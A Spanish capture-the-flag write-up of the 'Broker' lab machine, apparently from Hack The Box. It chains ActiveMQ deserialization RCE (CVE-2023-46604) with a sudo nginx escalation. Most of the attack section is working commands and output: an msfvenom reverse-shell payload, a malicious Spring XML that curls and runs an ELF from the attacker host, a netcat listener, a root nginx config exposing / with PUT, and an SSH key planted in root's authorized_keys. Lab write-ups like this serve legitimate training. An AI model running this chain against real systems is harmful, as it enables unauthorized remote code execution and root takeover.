


# Broker

`Broker` es una máquina Linux de fácil dificultad que aloja una versión de `Apache ActiveMQ`. La enumeración de la versión de `Apache ActiveMQ` muestra que es vulnerable a la ejecución de código remoto no autenticado, que se aprovecha para obtener acceso de usuario en el objetivo.

La enumeración posterior a la explotación revela que el sistema tiene una configuración incorrecta de sudo que permite al usuario activemq ejecutar `sudo /usr/sbin/nginx`, que es similar a la reciente divulgación de Zimbra y se aprovecha para obtener acceso de root.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un reconocimiento con `Nmap` para ver los puertos que están expuestos en la máquina **`Broker`**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.11.243 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-15 04:54 CET
Nmap scan report for 10.10.11.243
Host is up (0.075s latency).
Not shown: 65525 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
1883/tcp  open  mqtt
5672/tcp  open  amqp
8161/tcp  open  patrol-snmp
36015/tcp open  unknown
61613/tcp open  unknown
61614/tcp open  unknown
61616/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 15.81 seconds
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.243
	[*] Open ports: 22,80,1883,5672,8161,36015,61613,61614,61616

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato `oN` y `oX` para posteriormente trabajar con ellos. Verificamos que al parecer se trata de una máquina Ubuntu que dispone de una página de `Nginx` y un servicio llamado `ActiveMQ`.

```bash
❯ nmap -sCV -p22,80,1339,1883,5672,8161,36015,61613,61614,61616 10.10.11.243 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-15 04:55 CET
Nmap scan report for 10.10.11.243
Host is up (0.084s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
36015/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Site doesn't have a title.
61616/tcp open  apachemq   ActiveMQ OpenWire transport 5.15.15
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   77.79 ms 10.10.16.1
2   39.97 ms 10.10.11.243

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.02 seconds
```

Procederemos a transformar el archivo generado `targetedXML` para transformar el `XML` en un archivo `HTML` para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Procederemos a intentar acceder a [http://10.10.11.243/](http://10.10.11.243/), verificamos que esta página web requiere de credenciales de acceso. Probando con `admin/admin` verificamos que ganamos acceso a la página web.&#x20;

<figure><figcaption></figcaption></figure>

La página web al parecer habla sobre un servicio llamado `ActiveMQ`. Revisando información sobre este software nos encontramos lo siguiente.


Apache ActiveMQ es un software de código abierto bajo licencia Apache 2.0 un intermediario de mensajes que se aplica plenamente en Java Message Service 1.1 (JMS). Proporciona "funciones de empresa" tales como agrupación, varios almacenes de mensajes, y la capacidad de utilizar cualquier base de datos como un proveedor de persistencia JMS, además de VM, caché, y la persistencia de revistas.


<figure><figcaption></figcaption></figure>

Verificamos que en el resultado obtenido en `Nmap`, nos aparece la versión de este software: `ActiveMQ`.

<figure><figcaption></figcaption></figure>

## Initial Access

### ActiveMQ Exploitation - Deserialization Attack (CVE-2023-46604) \[RCE]

Realizando una búsqueda sobre posibles vulnerabilidades de este software, nos encontramos con el siguiente `CVE-2023-46604`.




El protocolo Java OpenWire marshaller es vulnerable a la ejecución de código remoto. Esta vulnerabilidad puede permitir a un atacante remoto con acceso a la red a un corredor de OpenWire basado en Java o cliente ejecutar comandos de shell arbitrarios manipulando tipos de clase serializados en el protocolo OpenWire para hacer que el cliente o el corredor (respectivamente) instantáneamente cualquier clase en el camino de clase.

Se recomienda a los usuarios actualizar tanto a los corredores como a los clientes a la versión 5.15.16, 5.16.7, 5.17.6, o 5.18.3 que corrija este problema.


<figure><figcaption></figcaption></figure>

También nos encontramos con el siguiente repositorio de GitHub en la cual nos aparece el exploit para poder aprovecharnos de esta vulnerabilidad. Procederemos a descargarnos el repositorio en nuestro equipo atacante.



```bash
❯ git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ; cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ
Clonando en 'CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ'...
remote: Enumerating objects: 20, done.
remote: Counting objects: 100% (20/20), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 20 (delta 7), reused 9 (delta 3), pack-reused 0 (from 0)
Recibiendo objetos: 100% (20/20), 1.64 MiB | 6.22 MiB/s, listo.
Resolviendo deltas: 100% (7/7), listo.
```

En el repositorio nos explica el funcionamiento del exploit. En este caso lo que nos indica es generar un binario malicioso `ELF` que nos proporcione una Reverse Shell, al ejecutar el exploit ganaremos acceso a la máquina víctima a través de que el `ActiveMQ` procesa el `XML` que disponemos del repositorio y al deserializarlo se logra explotar esta vulnerabilidad.

<figure><figcaption></figcaption></figure>

El primer paso a realizar, será crear un payload de la Reverse Shell con el formato `.elf` y el nombre `test.elf`, donde especificaremos nuestra dirección IP y el puerto donde estaremos en escucha con nc.

```bash
❯ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.5 LPORT=443 -f elf -o test.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: test.elf
```

Del archivo que nos proporciona el repositorio, procederemos a modificar el archivo `poc-linux.xml` y modificaremos la IP por la nuestra, dejaremos el resto por defecto.

```bash
❯ cat poc-linux.xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>sh</value>
            <value>-c</value>
            <!-- The command below downloads the file and saves it as test.elf -->
            <value>curl -s -o test.elf http://10.10.16.5:8001/test.elf; chmod +x ./test.elf; ./test.elf</value>
        </list>
        </constructor-arg>
    </bean>
</beans>
```

Levantaremos un servidor web con Python por el puerto 8001, el especificado en el archivo `XML`.

```bash
❯ python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
```

Por otro lado, nos pondremos en escucha por el puerto especificado en el payload generado con `msfvenom`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Procederemos a explotar la vulnerabilidad indicando la dirección IP de la víctima, el puerto donde se encuentra el ActiveMQ (por defecto viene en el 61616) y la URL donde nosotros tenemos alojado el archivo `XML` malicioso que deserializará el `ActiveMQ`.

```bash
❯ go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.16.5:8001/poc-linux.xml
     _        _   _           __  __  ___        ____   ____ _____ 
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|  
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___ 
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.16.5:8001/poc-linux.xml

[*] Sending packet: 000000771f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e74657874010024687474703a2f2f31302e31302e31362e353a383030312f706f632d6c696e75782e786d6c
```

Verificamos que si volvemos a la terminal donde estabamos en escucha, recibimos correctamente la Reverse Shell hacía la máquina víctima. Verificamos los grupos y demás que disponemos sin ver nada que nos pueda servir para escalar privilegios.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.243] 38016
script /dev/null -c bash
Script started, output log file is '/dev/null'.
activemq@broker:/opt/apache-activemq-5.15.15/bin$ id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
activemq@broker:/opt/apache-activemq-5.15.15/bin$ cat /home/activemq/user.txt 
5a9d2a4f03872a******************
```

## Privilege Escalation

### Abusing sudoers privilege (nginx)

Revisando si disponemos de algún permiso de `sudo`, verificamos que podemos ejecutar el `Nginx` como usuario `root`.

```bash
activemq@broker:/opt/apache-activemq-5.15.15/bin$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Realizando una búsqueda por Internet de como aprovecharnos de esta vulnrabilidad, nos encontramos con el siguiente repositorio de GitHub.



El siguiente repositorio nos proporcionaba el siguiente script para crear una configuración en `Nginx` maliciosa.

El siguiente script realizará una configuración de `Nginx` que habilite una página web por el puerto `1338`. Se indicará que el servidor tenga capacidad para realizar un listado de directorios (`directory listing`) en el directorio raíz (`/`), dado que el usuario que ejecuta Nginx es `root`.Esto nos permitirá listar los archivos del sistema sin restricciones.

Además, se habilitará el método `PUT` para que se puedan subir contenidos a través de la página web vulnerable que estamos montando. Una vez configurado, procederemos a cargar la configuración del sitio web vulnerable.


```bash
#!/bin/sh
echo "[+] Creating configuration..."
cat << EOF > /tmp/nginx_pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
	server {
	       listen 1338;
	       root /;
	       autoindex on;
	       dav_methods PUT;
	}
}
EOF
echo "[+] Loading configuration..."
sudo nginx -c /tmp/nginx_pwn.conf
```


Procederemos a darle permisos de ejecución al script realizado y a ejecutarlo para levantar el sitio web vulnerable.

```bash
activemq@broker:/tmp$ chmod +x exploit.sh
activemq@broker:/tmp$ ./exploit.sh 
[+] Creating configuration...
[+] Loading configuration...
```

Revisamos que si accedemos a [http://10.10.11.243:1338](http://10.10.11.243:1338) tenemos la capacidad de listar los directorios desde la raíz `/`.

<figure><figcaption></figcaption></figure>

Al verificar esto, y dado que hemos verificado en el escaneo inicial de `Nmap` de que el servicio de `SSH` se encuentra expuesto, el objetivo será crear en nuestra máquina atacante una clave pública que subiremos a través del método `PUT` al servidor web vulnerable en la ruta `/root/.ssh/authorized_keys`.

```bash
❯ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/kali/.ssh/id_ed25519): /home/kali/.ssh/id_rsa
Enter passphrase for "/home/kali/.ssh/id_rsa" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:VJOJ/h84EVj0o05Fpz15O3EfYA9X6Zk2e1ZFmi25358 kali@kali
The key's randomart image is:
+--[ED25519 256]--+
|         ==o.+.o=|
|        o.++.+=B.|
|       ..  .= X+B|
|       .. .o . @B|
|        S.oo  oo=|
|         o+ .  o=|
|          .o . .+|
|            .   o|
|               E.|
+----[SHA256]-----+
```

Mostraremos el contenido de la clave pública `id_rsa.pub`que hemos generado en nuestra máquina y a través de la herramienta `cURL` procederemos a subir este contenido dentro del archivo `authorized_keys`, esto con el objetivo de que nuestra clave pública se encuentre permitida en la máquina pública y nos podamos conectar como usuario `root` sin proporcionar credenciales.

<pre class="language-bash"><code class="lang-bash">❯ cat id_rsa.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIM/QPvpr6ZlpPXjNq/RQQC5Wi8sUwISswOUyVV2NYpcN kali@kali
<strong>
</strong><strong>❯ curl -s -X PUT 10.10.11.243:1338/root/.ssh/authorized_keys -d "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIM/QPvpr6ZlpPXjNq/RQQC5Wi8sUwISswOUyVV2NYpcN kali@kali"
</strong></code></pre>

Verificaremos que se ha subido correctamente el contenido dentro del archivo `authorized_keys`.

<figure><figcaption></figcaption></figure>

Procederemos a coenctarnos mediante `SSH` con el usuario `root` en la máquina víctima. Verificamos del acceso correctamente y de la flag **user.txt**.

```bash
❯ ssh root@10.10.11.243
The authenticity of host '10.10.11.243 (10.10.11.243)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.243' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

..[snip]...

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

root@broker:~# whoami
root
root@broker:~# cat /root/root.txt 
e8f26dda9ea4c*******************
```
